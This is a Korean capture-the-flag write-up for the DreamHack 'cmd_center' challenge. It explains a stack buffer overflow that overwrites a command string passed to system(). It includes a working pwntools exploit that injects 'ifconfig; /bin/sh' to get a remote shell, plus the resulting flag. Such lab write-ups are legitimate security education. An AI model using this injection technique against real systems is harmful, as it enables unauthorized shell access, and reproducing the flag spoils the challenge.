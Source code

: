 # [DreamHack] cmd_center

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> IP를 확인할 필요가 없습니다! 혹시 다른 명령어는 못쓰나요?
> 다른 명령어를 사용했다면 플래그를 획득하세요!
>
> Release: [cmd_center.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549531/cmd_center.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160316579-d0dd3e89-f352-4a4e-a8a4-9722643ab406.png)

## Analysis

```c
	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];
```

코드 상에서는 `cmd_ip`가 `center_name`보다 먼저 선언되어 있지만, 메모리를 보면

![image](https://user-images.githubusercontent.com/102066383/160316906-5aaa2a37-ccb0-4bf1-8bba-0711635b1db5.png)

`center_name`은 `rsp+0x0`에 위치하고, `cmd_id`는 `rsp+0x20`에 위치한다.

```c
	printf("Center name: ");
	read(0, center_name, 100);
```

`center_name`을 입력받을 때 BOF가 발생해서 `cmd_ip`의 일부분을 덮을 수 있다.

```c
	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}
```

`cmd_ip`의 처음 8바이트가 `"ifconfig"`이면 `system(cmd_ip)`를 실행한다. BOF를 이용하여 `cmd_ip`가 `"ifconfig; /bin/sh"`가 되도록 하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/cmd_center')
else:
    r = remote('host1.dreamhack.games', 23959)

r.sendafter('Center name: ', 'a' * 0x20 + 'ifconfig; /bin/sh')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 23959: Done
[*] Switching to interactive mode
sh: 1: ifconfig: not found
$ cat flag
DH{f4c11bf9ea5a1df24175ee4d11da0d16}
```